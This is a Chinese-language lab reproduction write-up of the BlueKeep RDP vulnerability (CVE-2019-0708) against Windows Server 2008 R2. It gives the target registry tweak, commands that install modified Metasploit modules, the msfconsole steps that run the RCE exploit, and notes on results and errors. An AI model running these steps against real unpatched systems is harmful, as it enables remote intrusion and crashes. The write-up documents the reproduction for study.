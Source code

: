 # 0x00 软件介绍
Windows RDP：Windows下自带的一款远程桌面服务

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：无

# 0x02 环境搭建
靶机环境：2008_r2_standard_zh-chs

前提条件：  
2008_r2_standard_zh-chs修改注册表值项HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Terminal Server\WinStations\RDP-Tcp\fDisableCam的值为1  
（有的文章指出要修改的注册表值项为HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Terminal\Server\WinStations\rdpwd\fDisableCam，但我的系统没有值项rdpwd，而在项RDP-Tcp下有值项fDisableCam）

# 0x03 利用条件
无

# 0x04 影响版本
无

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

将如下3个文件替换msf中默认的文件  
cp ./rdp.rb /usr/share/metasploit-framework/lib/msf/core/exploit/  
cp ./rdp_scanner.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/（有的文章中给出的目录是/usr/share/metasploit-framework/modules/auxiliary/scanner/，我想应该是少写了rdp/）  
cp ./cve_2019_0708_bluekeep.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/  
将如下1个文件添加到msf中  
cp ./cve_2019_0708_bluekeep_rce.rb /usr/share/metasploit-framework/modules/exploits/windows/rdp/  
配置meterpreter：  
msfconsole  
search 0708  
use windows/rdp/cve_2019_0708_bluekeep_rce  
set RHOSTS 192.168.149.130  
run  
选择目标为3（vmware）

第一次没修改注册表，系统蓝屏  
第二次修改注册表后，成功拿到shell  
第三次修改注册表后，系统蓝屏  
第四次修改注册表后，报错Connection reset by peer  
结论，08 r2需要修改注册表，而且利用不稳定

# 0x06 踩坑记录
坑0：Exploit aborted due to failure: bad-config: Set the most appropriate target manually  
表示需要设置对应的目标  
坑1：Exploit failed: NameError undefined local variable or method  
需要额外修改三个文件  
坑2：Exploit failed [disconnected]: Errno::ECONNRESET Connection reset by peer  
未知  

# 0x07 参考链接
https://github.com/rapid7/metasploit-framework/pull/12283  
http://blog.xkkhh.cn/archives/535
